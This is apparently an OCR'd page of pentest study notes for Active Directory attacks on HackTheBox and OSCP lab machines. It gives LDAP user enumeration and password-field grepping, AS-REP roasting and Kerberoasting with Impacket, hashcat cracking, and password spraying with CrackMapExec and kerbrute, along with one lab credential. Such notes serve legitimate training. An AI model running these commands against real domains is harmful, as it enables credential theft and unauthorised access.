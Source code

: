 **\$ ldapsearch -H ldap://10.10.10.161 -x -s base namingcontexts**

after found the namingcontexts try to enum the user using this command

**\$ ldapsearch -H ldap://10.10.10.161 -x -b DC=htb,DC=local
\"(objectClass=person)\" \| grep \"sAMAccountName:\"**

**ldapsearch -x -H ldap://10.10.191.152 -D \'oscp\\web_svc\' -w
\'Diamond1\' -b \"DC=oscp,DC=exam\" \> ldapsearch.txt**

**To filter only userlist :**

**\$ldapsearch -H ldap://10.10.10.182 -x -b DC=Cascade,DC=local
\"(objectClass=person)\" \| grep \"sAMAccountName:\" \| awk -F\': \'
\'{print \$2}\'**

**To grep password:**

**\$ldapsearch -H ldap://10.10.10.182 -x -b DC=Cascade,DC=local \| grep
"Pwd"**

or you can use the nmap nse script :

**\$ nmap -p 389 \--script ldap-search 10.10.10.161**

if port 445 or 139 open try to check the smb enumeration:

\$ **enum4linux IP**

after get the list the users try to check ASREPRoast attack using the
Impacket tool GetNPUsers.py to try to get a hash for each user,

\$ impacket-GetNPUsers Egotistical-bank.local/sauna -dc-ip 10.10.10.175
-request -no-pass

**\$ for user in \$(cat users); do GetNPUsers.py -no-pass -dc-ip
10.10.10.161 htb/\${user} \| grep -v Impacket; done**

after getting hash try to crack the password using hascat or john the
ripper

**\$ hashcat -m 18200 svc-alfresco.kerb /usr/share/wordlists/rockyou.txt
\--force**

after cracking password try use CrackmapExec for passwordspray against
all machines to find smb shares.

**\$ CrackmapExec.py smb 192.168.xxx.xxx -u users.txt -p \'pass\'**

**Or using evilwnrm**

## **Kerberoasting**

-   kerbrute userenum -d oscp.exam users.txt \--dc 10.10.130.15X

-   kerbrute passwordspray -d oscp.exam users.txt Password123 \--dc
    > 10.10.120.X -vvv

```{=html}
<!-- -->
```
-   impacket-GetUserSPNs -request -dc-ip 10.10.10.100 active.htb/SVC_TGS
    > -outputfile GetUserSPNs.out
